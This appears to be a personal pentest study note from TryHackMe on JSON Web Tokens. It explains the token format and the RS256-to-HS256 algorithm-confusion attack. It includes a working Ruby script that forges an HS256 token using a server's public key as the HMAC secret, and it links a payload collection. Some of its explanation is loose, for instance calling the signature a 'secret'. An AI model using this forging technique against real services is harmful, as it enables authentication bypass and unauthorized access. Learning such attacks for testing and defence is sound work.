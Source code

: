 # JWT
#pentest/tryhackme

## What
Json Web Token's are a fairly interesting case, as it isn't a vulnerability itself. In fact, it's a fairly popular, and if done right very secure method of authentication. The basic structure of a JWT is this, it goes "header.payload.secret", the secret is only known to the server, and is used to make sure that data wasn't changed along the way. Everything is then base64 encoded. so an example JWT token would look like:
`"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"`

Meaning that if we are able to control the secret, we can effectively control the data. To be able to do this we have to understand how the secret is calculated. This requires knowing the structure of the header, a typical JWT header looks like this `{"typ":"JWT","alg":"RS256"}`.

 We're interested in the alg field. RS256 uses a private RSA key that's only available to the server, so that's not vulnerable. However, We can change that field to HS256, This is calculated using the server's *public*key, which in certain circumstances we may have access to.

## Playing with JWT
* [JSON Web Tokens - jwt.io](https://jwt.io/)
* [JSON Web Token (JWT)](https://www.jsonwebtoken.io/)

## Payloads
[PayloadsAllTheThings/JSON Web Token at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)

## Example of exploit using the public key
It's not really an exploit and more of an algorithm, the algorithm `HS256`  means that the secret is calculated using the server `public key`, which in certain circumstances we may have access to.

```rb
require 'openssl'
require 'base64'
require 'json'

HMAC_SECRET = <<~DESC
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqi8TnuQBGXOGx/Lfn4JF
NYOH2V1qemfs83stWc1ZBQFCQAZmUr/sgbPypYzy229pFl6bGeqpiRHrSufHug7c
1LCyalyUEP+OzeqbEhSSuUss/XyfzybIusbqIDEQJ+Yex3CdgwC/hAF3xptV/2t+
H6y0Gdh1weVKRM8+QaeWUxMGOgzJYAlUcRAP5dRkEOUtSKHBFOFhEwNBXrfLd76f
ZXPNgyN0TzNLQjPQOy/tJ/VFq8CQGE4/K5ElRSDlj4kswxonWXYAUVxnqRN1LGHw
2G5QRE2D13sKHCC8ZrZXJzj67Hrq5h2SADKzVzhA8AW3WZlPLrlFT3t1+iZ6m+aF
KwIDAQAB
-----END PUBLIC KEY-----
DESC

def encode(hash_content)
  Base64.encode64(
    JSON.generate(hash_content)
  ).tr('+/', '-_').gsub(/[\n=]/, '')
end

def encode_signature(message)
  digest = OpenSSL::Digest.new('sha256')
  signature = OpenSSL::HMAC.digest(digest, HMAC_SECRET, message)
  Base64.encode64(signature).tr('+/', '-_').gsub(/[\n=]/, '')
end

def jwt(header, payload_hash)
  encoded_header = encode(header)
  encoded_payload = encode(payload_hash)
  encoded_signature = encode_signature(
    [encoded_header, encoded_payload].join('.')
  )

  [encoded_header, encoded_payload, encoded_signature].join('.')
end

puts jwt(
  { typ: 'JWT', alg: 'HS256'},
  { iss: "Paradox", iat: 1592187870, exp: 1592187990, data: { pingu: "noots" } }
)

```
